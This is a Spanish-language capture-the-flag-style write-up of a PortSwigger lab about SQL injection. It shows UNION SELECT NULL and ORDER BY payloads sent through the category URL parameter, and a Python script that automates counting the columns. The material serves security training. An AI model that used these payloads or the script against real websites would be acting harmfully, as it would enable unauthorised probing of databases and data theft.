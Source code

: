 ```yaml
---
title: "03 SQLi UNION attack determining the number of columns returned by the query"
collection: publications
category: portswigger
permalink: /publications/SQLi/03_SQL injection UNION attack, determining the number of columns returned by the query
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría del filtro de productos. Esta vulnerabilidad puede explotarse mediante un ataque UNION para recuperar datos de otras tablas. Para resolver el laboratorio, realizamos un ataque de inyección SQL que determina el número de columnas que devuelve la consulta. Este es el primer paso de un ataque UNION de inyección SQL. Utilizaremos esta técnica en laboratorios posteriores para construir el ataque completo.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQLi UNION attack determining the number of columns returned by the query'
---
```


![logo]({{site.url}}/images/SQLi/sqli-3/logo.png)

Lab-Link: <https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns>  
Dificultad: APPRENTICE  

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-3/descripcion.png)

## Objetivo del laboratorio

Determinar el número de columnas devueltas por la consulta realizando un ataque de inyección SQL UNION que devuelva una fila adicional que contenga valores nulos.

## Query

![categorias]({{site.url}}/images/SQLi/sqli-3/categorias y url.png)

La consulta utilizada en el laboratorio tendrá un aspecto similar a

```sql
SELECT * FROM tabla WHERE category = '<CATEGORY>'
```

Comprobamos que es vulnerable a SQLi insertando en la url el parametro:

```sql
' --
```

![Comprobar]({{site.url}}/images/SQLi/sqli-3/comprobar.png)

## Determinar el numero de columnas retornadas por la consulta

1) El payload se veria asi con NULL:

```javascript
/filter?category=Gifts' UNION SELECT NULL--
/filter?category=Gifts' UNION SELECT NULL, NULL--
/filter?category=Gifts' UNION SELECT NULL, NULL, NULL--
```

Vamos insertando `NULL` con `UNION SELECT` para ver cuantas columnas estan disponibles etc...

2) Probamos con `ORDER BY` para ver que cantidad son vulnerables, vamos incrementando el numero

```javascript
/filter?category=Gifts' ORDER BY 1--
/filter?category=Gifts' ORDER BY 2--
/filter?category=Gifts' ORDER BY 3--
```

## Forma determinar con NULL

```javascript
filter?category=Gifts' UNION SELECT NULL,NULL,NULL--
```
La web para a realizar el `URL ENCONDE` y quedaria algo asi:

![url enconde]({{site.url}}/images/SQLi/sqli-3/NULL.png)

En BurpSuite se veria de la siguiente forma

![BurpSuite]({{site.url}}/images/SQLi/sqli-3/burp.png)

## Forma determinar con ORDER BY

```javascript
filter?category=Gifts' ORDER BY 3--
```
Sin Url Encode:

![url]({{site.url}}/images/SQLi/sqli-3/url.png)

El navegador hace `URL ENCONDE` y quedaria algo asi:

![url_enconde]({{site.url}}/images/SQLi/sqli-3/url encode.png)

Aprobado
![Aprobado]({{site.url}}/images/SQLi/sqli-3/aprobado.png)

# Codigo Python

```python
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli_column_number(url):
    path = "/filter?category=Gifts"
    for i in range(1,50):
        sql_payload = "'+order+by+%s--" %i
        r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
        res = r.text
        if "Internal Server Error" in res:
            return i -1
        i = i + 1
    return False


if __name__ == '__main__':
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print('[-] Usage: %s <url>' % sys.argv[0])
        print('[-] Example: %s www.example.com' % sys.argv[0])
        sys.exit(-1)

    print("[+] Figuring out number of columns...") 
    num_col = exploit_sqli_column_number(url)
    if num_col:
        print ("[+] The number of columns is " + str(num_col) + ".")
    else:
        print("[-] The SQLi attack was not successful.")
```